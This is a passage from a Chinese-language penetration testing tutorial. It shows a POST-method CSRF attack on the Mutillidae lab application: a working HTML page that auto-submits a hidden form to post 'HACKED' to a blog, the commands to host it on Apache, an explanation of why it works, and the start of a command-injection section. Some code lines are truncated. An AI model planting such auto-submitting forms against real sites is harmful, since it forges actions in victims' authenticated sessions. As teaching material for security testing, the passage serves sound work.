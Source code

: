 上面的例子中，我们可以看到，验证用户所提交的`blog`入口通过`blog_entry`POST 方法参数传递。为了利用这个 CSRF 控制的缺失，攻击者需要构造恶意页面，它能导致受害者提交所需的参数。下面是个 POST 方法 CSRF 攻击的例子：

```
<html> 
<head>        
    <title></title> 
</head> 
<body>        
    <form name="csrf" method="post" action="http://172.16.36.135/ mutillidae/index.php?page=add-t$                
        <input type="hidden" name="csrf-token" value="SecurityIsDisabled" />                
        <input type="hidden" name="blog_entry" value="HACKED" />                
        <input type="hidden" name="add-to-your-blog-phpsubmit-button" value="Save+Blog+Entr$        
    </form>        
    <script type="text/javascript">                
        document.csrf.submit();        
    </script> </body> </html> 
```

这个恶意 Web 页面使用了 HTML 表单，它将多个隐藏的输入字段返回给服务器，这些字段对应 Mutillidae 应用的`blog`入口提交请求所需的相同输入。此外，JS 用于提交表单。所有这些事情在受害者不执行任何操作的情况下就会发生。考虑下面的例子：

```
root@KaliLinux:~# mv CSRF.html /var/www/ 
root@KaliLinux:~# /etc/init.d/apache2 start 
[....] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName 
. ok
```

为了部署这个恶意 Web 内容，应该将其移动到 Web 根目录下。在 Kali 中，默认的 Apache Web 根目录是`/var/www/`。同样，确保 Apache2 服务已打开。像这样：

![](../img/cf71c4c226d94849176a7d1cb81219ab.png)

当验证后的受害者浏览器恶意页面时，受害者会自动重定向到 Mutillidae 博客应用，并提交博客入口`HACKED`。

### 工作原理

CSRF 的成因是请求最终由用户的会话生成。这个攻击利用受害者浏览器已经和远程 Web 服务器建立连接的信任。在 GET 方法 CSRF 的例子中，受害者被诱导访问某个 URL，其中的参数为恶意事务而定义。在 POST 方法 CSRF 的例子中，受害者被诱导浏览定义了参数的页面，这些参数随后会由受害者的浏览器转发给漏洞服务器，来指定恶意事务。在每个例子中，事务由于请求来自受害者的浏览器而被执行，受害者已经和漏洞服务器建立了可信的会话。

## 7.18 使用 HTTP 流量验证命令注入漏洞

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 Web 服务器日志或自定义 Web 服务脚本来确认命令执行漏洞。

### 准备
